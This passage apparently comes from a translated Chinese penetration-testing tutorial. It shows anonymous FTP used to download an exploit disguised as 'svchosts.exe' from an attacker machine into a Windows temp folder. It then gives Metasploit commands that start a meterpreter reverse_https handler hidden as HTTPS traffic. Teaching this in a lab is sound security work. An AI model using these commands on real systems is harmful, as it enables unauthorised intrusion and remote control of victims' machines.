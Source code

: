 一旦我们进入，就打开命令行界面或 PowerShell 窗口，并按如下方式下载文件。攻击机位于`172.16.42.215`：

```
ftp 172.16.42.215 
```

它将请求一个用户；输入匿名并点击*输入*键。然后服务将要求输入密码。再次点击*输入*键，将字段留空。

这将在此设置上正常工作。运行`dir`命令，我们可以看到我们的漏洞；我们将通过运行以下命令将其下载到 Windows`temp`目录：

```
GET svchosts.exe C:\Windows\temp\svchosts.exe  
```

![](img/9c5d97a8-e4e5-4855-abfd-ab5a1b6765ba.png)

MSFconsole 还将报告文件下载，如下所示：

![](img/74ff9117-3e5d-4517-9c3e-4120af57dff7.png)

在运行攻击之前，我们需要在攻击机器上设置攻击处理程序。我们将设置 Metasploit multi/handler，以便利用该漏洞进行连接。处理程序的默认负载是`reverse_tcp`负载，并在端口`4444`上运行。

当我们构建我们的漏洞时，我们将其设置为使用`reverse_https`将我们的流量隐藏为 HTTPS 流量，因此我们必须更改默认值。从 MSFconsole 运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.215 //(the attacking machine)
set LPORT 443
set PAYLOAD windows/meterpreter/reverse_https (sets the handler payload)
show options //(this will let you check the settings)
run -j //(the -j option will run the handler as a job in the background)  
```
